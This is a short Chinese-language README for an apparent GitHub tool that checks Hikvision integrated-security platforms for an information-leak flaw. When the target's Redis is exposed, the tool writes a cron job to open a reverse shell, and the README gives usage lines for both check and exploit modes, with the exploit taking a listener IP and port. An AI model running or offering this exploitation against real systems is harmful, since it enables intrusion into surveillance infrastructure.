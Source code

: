 # 海康威视综合安防信息泄露工具

## 简介

*该工具用于海康威视信息泄露漏洞的检测，若目标redis对外开放会结合redis写入计划任务反弹shell。*

本工具只做学习交流用，代码开源，请勿用做违法用途。

## 使用

 **参数**

```shell
  -c    check is vuln(default)
  -e    reverse a shell
  -u string
        target url
```

**检测**

```shell
./Hikvision_Info_Leak -c -u http://xxxx.xx.xxx.xx
```

**利用**

```shell
./Hikvision_Info_Leak -e -u http://xxxx.xx.xxx.xx -r x.x.x.x -p 18080
```

## 注意

1.本工具的利用模块需要结合海康密码解密工具

https://github.com/wafinfo/Hikvision